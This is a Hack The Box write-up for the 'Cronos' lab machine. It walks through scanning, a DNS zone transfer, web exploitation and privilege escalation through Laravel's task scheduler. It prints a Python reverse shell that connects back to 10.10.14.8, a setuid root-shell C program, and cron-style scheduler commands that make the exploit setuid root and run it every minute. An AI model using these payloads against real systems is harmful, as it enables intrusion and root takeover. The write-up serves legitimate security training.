 # Cronos Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA cronos -T4 10.10.10.13``

![image](https://user-images.githubusercontent.com/123066149/230632139-e019a1c8-2d80-414b-bb28-239d838bca6e.png)

``nmap -p- -sV -T4 -oA fullcronos 10.10.10.13``

![image](https://user-images.githubusercontent.com/123066149/230632255-084b1257-7cbc-4367-b61b-68f62b8d71b3.png)

``nmap -sU --min-rate 5000 10.10.10.13``

``gobuster dir -u http://10.10.10.13/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x php,pl,py,sh,html,txt,js -t 70``

# ${{\color{purple}Initial Foothold}}\ $

``dig axfr @10.10.10.13 cronos.htb``

![image](https://user-images.githubusercontent.com/123066149/230632494-8ed1b6e5-8abe-49b5-ab73-8974cef37bb8.png)

![image](https://user-images.githubusercontent.com/123066149/230632611-1b07d868-8f25-43da-9f48-d9b8eaaf5320.png)

![image](https://user-images.githubusercontent.com/123066149/230632844-5d3d1999-0749-43ce-9153-4873c12c8cdf.png)

![image](https://user-images.githubusercontent.com/123066149/230632973-881eb81c-a7b9-4313-a1cd-71e326875107.png)

# ${{\color{purple}Exploitation}}\ $

![image](https://user-images.githubusercontent.com/123066149/230633225-5b52b6be-ab7b-4390-8bd7-b87555440e04.png)

### Don't forgot to encode with ``ctrl+U`` the payload :

![image](https://user-images.githubusercontent.com/123066149/230633562-74667d5f-4c6d-48cb-ab3f-bf3e057a6101.png)

![image](https://user-images.githubusercontent.com/123066149/230634467-6072d929-9c0c-4b1f-80dd-7ac0fae943e9.png)


# ${{\color{purple}Privilege Escalation}}\ $

### After several tests :

![image](https://user-images.githubusercontent.com/123066149/230634694-6920625d-281e-49c5-a687-4fb1b9372c2f.png)

![image](https://user-images.githubusercontent.com/123066149/230634779-11fe97a2-10f1-42f5-be3f-c7e665cef787.png)

![image](https://user-images.githubusercontent.com/123066149/230634825-5993b949-ca7f-4348-9740-615a00dd30e4.png)

``laravel create scheduling command``

![image](https://user-images.githubusercontent.com/123066149/230634984-e44a88f4-e6a0-401c-a5df-4ad72dc7588f.png)

![image](https://user-images.githubusercontent.com/123066149/230635108-fa52df3f-05b4-45f4-8e63-5c10950b2ee5.png)

![image](https://user-images.githubusercontent.com/123066149/230635150-71e5ac77-1e4f-4119-884f-060caf575eb4.png)

``find / -name Kernel.php 2>/dev/null``

![image](https://user-images.githubusercontent.com/123066149/230635422-2611c03b-2640-45d1-a146-5c9703dd2e91.png)

### I tested this setuid program but whiout success :

![image](https://user-images.githubusercontent.com/123066149/230635650-2cc15c20-0baf-4f7c-b1b6-4edea017165c.png)

``int main(void)
{
        setuid(0);
        setgid(0);
        system("/bin/bash");
}``


``gcc setuid_binary.c -o setuid_exploit``

![image](https://user-images.githubusercontent.com/123066149/230635987-e16b47d9-6485-464a-b0a5-d279f7da55b9.png)


``import socket,subprocess,os``

``s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)``

``s.connect(("10.10.14.8",1234))``

``os.dup2(s.fileno(),0)``

``os.dup2(s.fileno(),1)``

``os.dup2(s.fileno(),2)``

``import pty``

``pty.spawn("sh")``

![image](https://user-images.githubusercontent.com/123066149/230636554-50985f6e-9dc2-444a-9e95-74042e4afa72.png)

``$schedule->exec('ping -c 2 10.10.14.8')->everyMinute();``

``$schedule->exec('chown root:root /tmp/exploit.py; chmod 4755 /tmp/exploit.py')->everyMinute();``

``$schedule->exec('/usr/bin/python /tmp/exploit.py')->everyMinute();``	

![image](https://user-images.githubusercontent.com/123066149/230636977-b70f2739-bb25-411d-9a3c-81b9995d2964.png)


# ${{\color{purple}Points of Improvement}}\ $

* When port 53 is open you need to do more testing on the DNS!!!
* Other priv esc to watch : - ``unixprivesc.sh``  - ``linuxpvrichecker.py``
* Don't forget to encode the payload in burp
* In this case it was not possible to run a rev shell in the priv esc don't hesitate to run a complete program
